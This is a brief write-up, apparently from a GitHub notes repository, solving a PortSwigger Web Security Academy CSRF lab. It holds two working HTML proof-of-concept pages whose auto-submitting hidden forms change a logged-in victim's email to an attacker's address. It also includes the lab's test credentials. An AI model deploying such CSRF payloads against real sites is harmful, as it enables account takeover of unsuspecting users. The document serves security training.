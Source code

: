 # CSRF vulnerability with no defenses

## This lab's email change functionality is vulnerable to CSRF.

## To solve the lab, craft some HTML that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address and upload it to your exploit server.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### step1 inspect email content

copy` /my-account/change-email` from inspect element and cahnge to form

### step2

go to expolit and submit

```html
<html>
  <body>
    <form
      action="https://0a73006e0385ae5f800e3f6700e90031.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
